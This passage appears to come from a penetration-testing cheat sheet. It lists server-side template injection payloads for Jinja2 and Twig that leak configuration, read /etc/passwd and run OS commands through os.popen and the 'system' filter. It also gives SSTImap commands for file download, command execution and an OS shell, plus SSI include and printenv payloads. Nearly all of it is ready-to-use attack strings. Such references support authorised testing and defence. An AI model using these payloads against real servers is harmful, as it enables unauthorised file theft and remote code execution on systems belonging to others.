 ```jinja2
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__ }}
```

**LFI:**

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

**RCE:**

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

**Twig**

Information disclosure:

```twig
{{ _self }}
```

**LFI (work only with the PHP Symfony framework):**

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

**RCE:**

```twig
{{ ['cat /etc/passwd'] | filter('system') }}
```

Useful tool to automate: https://github.com/vladko312/SSTImap

 - `python3 sstimap.py -u https://pentest-experts.com/index.php?q=test`  
   Run identification
 - `python3 sstimap.py -u https://pentest-experts.com/index.php?q=test -D '/etc/passwd' passwd.txt`   
   Download file
 - `python3 sstimap.py -u https://pentest-experts.com/index.php?q=test -S whoami`  
   Run OS command
 - `python3 sstimap.py -u https://pentest-experts.com/index.php?q=test --os-shell`

#### SSI - server-side includes

Information disclosure:

```
<!--#printenv -->
<!--#echo var="DOCUMENT_NAME" var="DOCUMENT_URI" var="DATE_LOCAL" var="LAST_MODIFIED" -->
```

**LFI:**

```
<!--#include virtual="config.inc.php" -->
```
